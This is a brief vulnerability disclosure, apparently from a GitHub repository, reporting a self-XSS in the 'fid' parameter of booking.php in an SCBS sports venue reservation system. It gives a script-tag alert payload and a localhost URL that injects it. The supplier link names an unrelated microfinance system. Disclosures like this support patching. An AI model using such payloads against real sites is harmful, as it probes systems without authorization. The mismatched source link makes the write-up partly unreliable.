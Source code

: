# SCBS online sports venue reservation system v1.0 - Self-XSS

The 'fid' parameter can be controlled and output on HTML

Supplier:https://www.sourcecodester.com/php/14822/microfinance-management-system.html

Payload:```"><script>alert(1)</script>script>```

/booking.php has selfxss injection

Open:```http://localhost/scbs/booking.php?fid="><script>alert(1)</script>script>```

![7](/img/xss.png)

![8](/img/8.png)

